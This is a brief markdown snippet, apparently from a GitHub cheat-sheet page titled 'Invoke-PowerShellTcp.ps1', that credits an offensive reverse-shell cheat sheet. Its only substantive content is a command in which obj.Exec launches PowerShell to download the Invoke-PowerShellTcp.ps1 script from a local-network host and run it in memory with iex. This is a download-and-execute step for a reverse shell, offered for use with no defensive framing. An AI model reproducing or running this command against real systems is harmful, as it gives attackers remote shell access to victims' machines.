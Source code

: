 # Invoke-PowerShellTcp.ps1

![image](https://user-images.githubusercontent.com/68978608/227783582-d59053ac-b137-4860-80b5-c0bb53a2f1c8.png)
![image](https://user-images.githubusercontent.com/68978608/227783620-e81a7e9d-6dc6-494c-b459-36b666a35049.png)

credits: @https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/tree/master
```
> obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.2/Invoke-PowerShellTcp.ps1')")
```
